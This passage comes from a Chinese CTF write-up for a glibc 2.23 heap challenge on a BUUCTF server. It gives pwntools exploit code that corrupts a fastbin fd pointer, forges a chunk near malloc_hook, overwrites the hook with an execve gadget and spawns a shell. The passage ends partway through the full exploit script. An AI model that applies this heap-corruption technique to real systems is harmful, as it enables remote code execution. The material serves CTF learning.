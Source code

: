    ```python
   #申请一个size字段为0x71的chunk，再释放掉，如何修改其fd值，指向malloc_hook前面size为0x7f的空间伪造chunk（malloc_hook-0x23）
   add(0x60,b'6')  #4
   free(4)
   payload = b"AAAAAAAA"*3 + p64(0x71) + p64(malloc_hook-0x23)
   fill(3,payload)
   ```

   ![image-20240711164131595](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407111641690.png)

   ![image-20240711165225361](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407111652543.png)

   * 两次申请，申请到伪造的chunk，然后堆溢出修改malloc_hook，最后调用即可：

   ```python
   #将伪造的chunk申请回来
   add(0x60,b't')  #4
   add(0x60,b'j')  #6
   
   #覆盖malloc_hook指向execve_addr，覆盖的垃圾数据要在gdb中计算好
   payload = b"AAAAAAAA"*2+b"aaa"+p64(execve_addr)
   fill(6,payload)
   
   #调用evecve("/bin/sh")
   add(0x100,b'lzl')
   p.sendline(b"cat flag")
   p.interactive()
   ```

5. 完整EXP：

   ```python
   from pwn import *
   from LibcSearcher import *
   # 设置系统架构, 打印调试信息
   # arch 可选 : i386 / amd64 / arm / mips
   context(os='linux', arch='amd64', log_level='debug')
   
   p = remote("node5.buuoj.cn",25775)
   # p = process("./pwn")
   libc = ELF('./libc-2.23.so')
   elf = ELF("./pwn")
   
   
   def add(size,content):
       p.sendlineafter(b':','1')
       p.sendlineafter(':',str(size))
       # p.sendlineafter(':',content)
   
   def fill(index, content):
       p.sendlineafter(':','2')
       p.sendlineafter(':',str(index).encode())
       p.sendlineafter(':',str(len(content)))
       p.sendafter(b':',content)
   
   def free(index):
       p.sendlineafter(':','3')
       p.sendlineafter(':',str(index).encode())
   
   def dump(index):
       p.sendlineafter(b':',b'4')
       p.sendlineafter(b':',str(index).encode())
   add(0x10,b'a')    #0
   add(0x10,b'b')    #1 作为修改fd，指向chunk4的牺牲品
   add(0x10,b'c')    #2 用来修改fd，指向chunk4
   add(0x10,b'd')    #3 用来恢复chunk4的size字段
   ```